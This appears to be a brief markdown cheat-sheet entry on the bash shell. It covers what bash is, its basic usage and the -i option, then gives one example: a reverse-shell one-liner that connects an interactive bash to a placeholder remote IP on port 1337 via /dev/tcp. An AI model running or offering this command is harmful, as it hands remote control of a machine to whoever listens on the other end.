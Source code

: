 #commands 

**bash**, short for 'bourne again shell' is a Unix shell and command language.

## Usage 

	bash

Preceding any command with **bash** opens a shell.

## Notable Options

	-i

Makes the shell interactive

## Example

The following command creates a reverse shell on a local machine in an interactive **bash**.

	bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/1337 0>&1
